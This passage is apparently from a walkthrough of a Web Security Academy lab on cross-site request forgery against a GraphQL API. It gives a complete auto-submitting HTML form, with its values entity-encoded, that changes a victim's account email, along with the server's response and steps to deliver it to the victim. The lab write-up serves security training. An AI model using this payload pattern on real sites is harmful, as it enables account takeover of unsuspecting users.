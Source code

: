 ```html
<html>
  <form action="https://YOUR-LAB-ID.web-security-academy.net/graphql/v1" method="POST">
    <input type="hidden" name="query" value="&#x0a;&#x20;&#x20;&#x20;&#x20;&#x6d;&#x75;&#x74;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x20;&#x43;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x21;&#x29;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x20;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x29;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;">
    <input type="hidden" name="operationName" value="&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;">
    <input type="hidden" name="variables" value="&#x7b;&#x22;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x22;&#x3a;&#x7b;&#x22;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x22;&#x3a;&#x22;&#x68;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x40;&#x68;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x2e;&#x63;&#x6f;&#x6d;&#x22;&#x7d;&#x7d;">
  </form>
  <script>

  </script>
</html>
```

One last thing. Inside the `<script></script>` block add:

```javascript
document.forms[0].submit();
```

Once your PoC is ready, click "Store" and then "View exploit". You will be redirected to a GraphQL API response:

```json
{
  "data": {
    "changeEmail": {
      "email": "hacker@hacker.com"
    }
  }
}
```

This indicates that your email was changed with this this PoC. To check it go to `/my-account`:

```
Your username is: wiener

Your email is: hacker@hacker.com
```

So change the value of `<input name="variables" value="">` to a different email. Simply copy the initial value from __Repeater__'s request body, go to __Decoder__, URL decode, input any email you haven't used yet, encode as HTML and replace it in the __exploit server__. 

Once that's done, click "Deliver to victim" to solve the lab. 

